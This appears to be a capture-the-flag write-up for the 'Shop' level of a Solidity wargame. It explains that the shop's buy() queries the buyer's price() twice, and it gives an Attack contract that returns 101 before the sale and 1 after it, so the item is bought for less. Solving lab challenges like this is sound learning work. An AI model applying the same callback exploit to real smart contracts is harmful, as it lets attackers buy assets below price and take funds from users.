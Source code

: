 ## Shop

1. This is similar to Elevator where you call the contract and it calls back to your contract (obviously you have to use contract).

2. We have to buy with less price, actually i tried to return pure function with 99 price in my Attack contract but require check failed it and then i looked closely and realized something.

3. The price() is called twice in the buy(), first time it should return more than or equal to 100 and for second call it should return less than 100 to pass the challenge.

4. You can do it in various ways but i used ternary op similar to python

5. you have to add the interface for shop, below is the code

```solidity
contract Attack {
    Shop private shop;

    function attack(Shop _shop) external {
        shop = _shop;
        shop.buy();
    }

    function price() external view returns (uint256) {
        return shop.isSold() ? 1 : 101;
    }
}
```

6. success
